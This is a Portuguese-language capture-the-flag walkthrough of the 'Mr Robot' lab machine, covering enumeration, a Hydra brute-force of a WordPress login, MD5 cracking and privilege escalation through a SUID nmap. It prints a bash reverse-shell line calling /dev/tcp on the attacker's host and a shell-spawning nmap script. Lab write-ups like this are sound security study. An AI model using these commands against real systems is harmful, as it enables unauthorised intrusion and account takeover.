










# _**Mr Robot CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan de redes através do <mark>Nmap</mark>
> ```bash
> nmap --open -A -T4 [ip_address]
> ```


Parece que nosso scan não deu certo  
Vamos tentar de outra maneira, apenas ```nmap --open [ip_address]``` e então, vamos tentar obter mais informações  


Parece que temos 3 portas abertas:
* 22 --> SSH
* 80 --> HTTP
* 443 --> HTTP

Visitando ambos os websites, temos a mesma tela inicial e um prompt de comando com algumas opções  



Verificando todas as opções, vimos apenas uma informação que parece ser _útil_:: **whoismrrobot.com**  
Pode ser um website ou algo escondido, vamos deiaxr anotado  
Vamos tentar encontrar por diretórios escondidos no site com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]/ -w ../seclists/Discovery/Web-Content/common.txt --status-codes 200,301,302 --status-codes-blacklist "" --follow-redirect
> ```


Descobrimos diversos diretórios e alguns com conteúdo interessante  
Vamos investigar alguns  
No diretório _/Image_, encontramos uma imagem e realizamos _download_  
No diretório _/readme_, uma frase de que não irá nos ajudar  
No diretório _/robots_, temos uma frase interessante: **fsocity.dic.dic** e **key-1-of-3.txt**, uma pista de qual é o nome do arquivo que contém a primeira chave  
No diretório _/rdf_, temos a versão de qual **wordpress** está sendo utilizada: 4.3.1  
No diretório _/wp-login e wp-admin_, temos uma página de login **wordpress**  
Investigando a versão do _wordpress_ através do <mark>searchsploit</mark>, temos o seguinte resultado  



Após algumas tentativas, não obtemos nenhum resultado  
Podemos tentar inserir _key-1-of-3.txt_ na URL do site  
E temos sucesso!  



Vamos tentar agora com **fsocity.dic** e ver o que encontramos  
Temos uma lista do que parece ser senhas  
Buscando com ```wget [ip_address]/fsocity.dic```  
Na página de login **wordpress**, tentando obter acesso com _admin:admin_, temos acesso negado, mas uma mensagem importante! --> _invalid username_  
Isso quer dizer que, existe um retorno de **senha incorreta** se **o usuário estiver correto**  


Inserindo [] e tentando qualquer tenha, temos: _**The password you entered for the username is incorrect**_  
Podemos utilizar a ferramenta <mark>Hydra</mark> para um ataque de força bruta, já que temos um dicionário de possíveis senhas
> ```bash
> hydra -l Elliot -P fsocity.dic [ip_address] http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username" -t 64
> ```
Enquanto a execução do **hydra** continua, fui investigar mais sobre as outras páginas menos interessantes  
No diretório _/license_, encontramos algo que chama a atenção  
Essa string: _ZWxsaW90OkVSMjgtMDY1Mgo=_  
Parece estar em **base64**, vamos tentar traduzir  



Conseguimos login!  
Voltando para o arquivo de possíveis senhas, essa encontrada é uma das últimas!  
Seriam 5 horas de tentativas!  

## _**Ganhando acesso a máquina**_
Como conseguimos entrar e alterar as configurações do **wordpress**, vamos realizar o seguinte  
Primeiro, vamos criar nosso código PHP para obter um shell reverso  
> ```bash
> exec("/bin/bash -c 'bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'");
> ```


Agora, vamos procurar pela segunda flag  
Por padrão, deve ter quase o mesmo nome do que a primeira: **key-1-of-3.txt**  
Vamos usar ```find / -name "key-2-of-3.txt" 2>/dev/null```  
Encontramos em: _/home/robot_  
Ao tentar ler, temos acesso negado  
Investigando o diretório, encontramos o que parece um arquivo **hash md5** da senha do usuário  
Dando um ```cat```, obtemos a hash e criamos um arquivo _.txt_ com ela em nossa máquina  
Usando <mark>john the ripper</mark>, conseguimos obter a senha para o usuário _robot_
> ```bash
> nano passwd.txt && echo "robot:c3fcd3d76192e4007dfb496cca67e13b" > passwd.txt
> john --format=raw-md5 passwd.txt -w=/usr/share/wordlists/rockyou.txt
> ```


Realizamos login via **SSH** e obtemos a segunda chave!  
Agora para a terceira, vamos tentar escalar privilégios  

## _**Escalando privilégios**_
Executando ```sudo -l``` e inserindo a senha, não obtivemos sucesso  
Tentando ```find / -type f -perm -u=s 2>/dev/null```, temos um arquivo diferente encontrado: _/usr/local/bin/nmap_  
Pesquisando mais sobre no GFTOBins, encontramos que é possível obter uma **shell** da seguinte maneira:
> ```bash
> TF=$(mktemp)
> echo 'os.execute("/bin/sh")' > $TF
> nmap --script=$TF
> cat key-3-of-3.txt
> ```


E assim, obtemos a última chave!
